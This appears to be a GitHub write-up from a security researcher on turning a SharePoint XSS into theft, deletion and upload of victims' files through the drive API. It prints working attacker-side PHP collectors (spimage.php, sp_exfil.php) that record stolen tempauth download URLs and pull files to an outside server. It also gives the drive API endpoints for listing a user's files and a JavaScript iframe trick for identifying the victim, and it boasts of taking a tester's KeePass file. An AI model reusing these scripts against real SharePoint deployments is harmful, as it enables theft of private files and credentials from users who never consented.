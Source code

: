 # SharePoint JavaScript/API Investigation

- All the information provided on this site is for educational purposes only.
- The site or the authors are not responsible for any misuse of the information.
- You shall not misuse the information to gain unauthorized access and/or write malicious programs.
- The information shall only be used to expand knowledge and not for causing malicious or damaging attacks.

Due to discovery of XSS in SharePoint on-premise and their hosted solutions, I was asked to see what could be done with the XSS. I hosted a few JavaScript files during the investigation since I was able to inject a script tag and use the src attribute to link to the hosted files.

I also was able to use a version of SharePoint that had the aspx file rendering and I was able to use that to create files with embedded payloads and made the files look like they belonged in SharePoint.

What was I able to do if a user accessed the XSS:
- Steal any user's files (hidden,private,public)
- Delete any user's files
- Upload any file to the user's sharepoint drive
- Anything else the API allowed us to do

The interactions happened against the drive API and also could be done using graphql.

## How could you steal file?
Well, the API created URLs with an authorization token. By stealing that URL, it was easy to just access

For the listing of all of a user's files, it was simple enough to just call out to the user's drive API (depends on API version):
- var t = "/_api/v2.1/drive/items/root";
- var t = "/_api/v2.0/drive/items/root/children";

There are just enough changes in version 2.0 to 2.1 of the drive API to have to write separate scripts.

The API provided us with a url with the tempauth parameter that allows anyone with that URL access the item for a decent amount of time.
```
https://REDACTED-my.sharepoint.com/personal/REDACTED/_layouts/15/download.aspx?UniqueId=REDACTED&Translate=false&tempauth=<<<<TOKEN!!!>>>>&ApiVersion=2.1
```

I also used a not so elegant version of the stealing of the token. It basically would show up as an image (`/tiny.png?steal_bs=`) access with a querystring stored in access.log. Then I decided it may be more useful to use a file such as spimage.php.

### What is in spimage.php?

```
<?php
header("Access-Control-Allow-Origin: *");
header("Access-Control-Allow-Headers: *");
header("Access-Control-Allow-Methods: *");
header('Content-Type: image/png');

$url = $_GET["auth_url"];
$file_name = $_GET["name"];
if(isset($_GET['auth_url']) && !empty($_GET['name']))
{
	$data = "<p><a href='".base64_decode($url)."'>".$file_name."</a></p>\r\n";
	file_put_contents('./REDACTED/xfil.html', $data , FILE_APPEND);
}
echo file_get_contents('http://REDACTED/tiny.png');
?>

```

### What is in sp_exfil.php
Well it is less elegant that the above...I don't like this one, but it is referrenced in the JavaScript.

```
<?php
header("Access-Control-Allow-Origin: *");
header("Access-Control-Allow-Headers: *");
header("Access-Control-Allow-Methods: *");
header('Content-Type: application/json');

$data = json_decode(file_get_contents('php://input'), true);
$url = $data["auth_url"];
$file_name = $data["name"];
echo './REDACTED/'.$file_name;
file_put_contents('./REDACTED/'.$file_name, file_get_contents($url));  
?>

```

## Upload and Delete
The Upload and Delete required obtaining tokens from another requests This can be seen in the following function calls of delete_files.js
- stealBearer
- getDigest

In the Upload I obtained the token in a slightly different way:
- getDigest

## Who is our victim?
The victim is anyone who accesses the XSS or pages (if you are able to use aspx). 

I did not have a lot of time to look into discovering who the victim would be, so I had to come up with a quick and dirty way of identifying them for requests needing their username:
```
document.write("<iframe src='/' id='whoareu' border=0 width=1 height=1></iframe>");const myTimeout = setTimeout(whoareu, 2000);
function whoareu() {
	var theurl=document.getElementById('whoareu').contentWindow.location.href;
	user = new URL(theurl).pathname.split('/')[2];
	// REST OF FUNCTION REMOVED AS NOT NECESSARY
}
```
In the above, I needed an iframe to hit the root of the SharePoint instance and it would redirect the user to their directory. Then I could parse the information out to be used for the Upload and Delete functions.

## What happened?
Well, the XSS was patched earlier this year and my other XSS findings in the past have been patched. Depending on deployment, you may be able to just create aspx files to embed your payloads. However, there are always 3rd party components that have plenty of bugs.

My favorite part while working on this was when it executed against someone I was testing with. I was able to download their keepass file that was only accessible to them.

